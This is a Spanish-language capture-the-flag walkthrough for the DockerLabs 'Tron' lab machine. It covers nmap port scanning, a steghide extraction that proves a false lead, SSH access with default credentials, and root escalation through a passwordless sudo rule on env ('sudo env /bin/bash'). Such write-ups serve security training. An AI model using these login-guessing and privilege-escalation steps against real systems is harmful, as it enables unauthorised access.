





# Tron DockerLabs (Easy)

# Contexto de la maquina
## Trayectoria Tron

<figure><figcaption></figcaption></figure>

## Descripción

**Tron** es una máquina Linux de dificultad **Easy** en DockerLabs con temática de la película Tron. La máquina plantea un vector de esteganografía que resulta ser una **pista falsa**, y la solución real reside en comprobar **credenciales por defecto** (usuario igual a contraseña), el mismo principio fundamental de probar lo más simple antes de escalar a técnicas más complejas.

La escalada a `root` es directa: el usuario `tron` tiene permiso para ejecutar `env` como `root` sin contraseña, lo que permite lanzar una shell de `root` directamente.

**Objetivo**

- Extraer el contenido oculto de `tron.jpg` con esteganografía (vía muerta, pero necesaria para descartarla).
- Identificar las credenciales por defecto `tron:tron` para el acceso SSH.
- Escalar a `root` mediante `sudo env /bin/bash`.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Ubuntu)
- Categoría principal: Web / Linux Privilege Escalation
- Componentes involucrados:
    - Esteganografía con `steghide` en imagen JPEG (pista falsa).
    - SSH con credenciales por defecto (usuario = contraseña).
    - `sudo env` sin contraseña para escalada inmediata a `root`.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip tron.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh tron.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-28 17:08 +0100
Nmap scan report for admin.noctis (172.17.0.2)
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.66 ((Ubuntu))
|_http-server-header: Apache/2.4.66 (Ubuntu)
|_http-title: TRON
MAC Address: FA:35:12:45:6B:8B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds
```

Dos puertos abiertos:

- **Puerto 22** → SSH (OpenSSH 10.2p1), que usaremos más adelante.
- **Puerto 80** → HTTP (Apache 2.4.66), que es el que más nos interesa de primeras. Accedemos para ver qué hay:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Vemos una página web aparentemente normal, sin ningún enlace ni formulario evidente.
# Esteganografía (pista falsa)

<figure><figcaption></figcaption></figure>

## Extracción con steghide

Fuzzeamos la web y probamos varias técnicas sin éxito. Analizar los metadatos de la imagen tampoco da resultado. Probamos entonces **esteganografía** con `steghide`, que embebe y extrae archivos ocultos dentro de imágenes JPEG:

```bash
steghide extract -sf tron.jpg
```

Dejamos la contraseña vacía y pulsamos Enter:

```
Anotar salvoconducto: 
anotó los datos extraídos en "disco.txt".
```

Funciona sin necesitar contraseña. Leemos el archivo extraído:

```bash
cat disco.txt
```

Respuesta:

```
quorra
"Lo que pasa con la perfección es que es incognoscible. Es imposible, pero también está justo frente a nosotros todo el tiempo."
```

El contenido es un nombre (`quorra`, un personaje de la película Tron) y una cita. Lo razonable es pensar que `quorra` podría ser un usuario de SSH, y la cita una pista de contraseña. Sin embargo, tras probar fuerza bruta con `quorra` como usuario y varios diccionarios, **no funciona**. Esta vía resulta ser una pista falsa: un elemento temático de la máquina sin utilidad real para la resolución.
# Escalate user tron
## SSH con credenciales por defecto

Dejamos de lado la esteganografía y aplicamos el principio básico de comprobar **credenciales por defecto** antes de seguir escalando en complejidad: probamos el nombre de la propia máquina como usuario y contraseña.

```bash
ssh tron@<IP>
```

Metemos como contraseña `tron`:

```
Welcome to Ubuntu 26.04.1 LTS (GNU/Linux 7.2.4-arch1-2 x86_64)
...
tron@84d66207f2cf:~$ whoami
tron
```

Las credenciales `tron:tron` son válidas. Igual que ocurre con otras máquinas de DockerLabs, la lección aquí es que **las credenciales por defecto siempre deben probarse antes de cualquier otra técnica más elaborada**, incluso cuando hay pistas aparentemente más sofisticadas (como la esteganografía) que resultan no ser el vector correcto.
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Enumeración de permisos sudo

```bash
sudo -l
```

Respuesta:

```
Matching Defaults entries for tron on 84d66207f2cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tron may run the following commands on 84d66207f2cf:
    (ALL) NOPASSWD: /usr/bin/env
```

`tron` puede ejecutar `env` como `root` sin contraseña. `env` es una herramienta que ejecuta comandos con variables de entorno modificadas, pero al pasarle `/bin/bash` directamente como argumento lanza una shell de `root` sin ningún paso adicional:

```bash
sudo env /bin/bash
```

Respuesta:

```
root@84d66207f2cf:/home/tron# whoami
root
```

Ya somos `root` y la máquina está completamente comprometida.

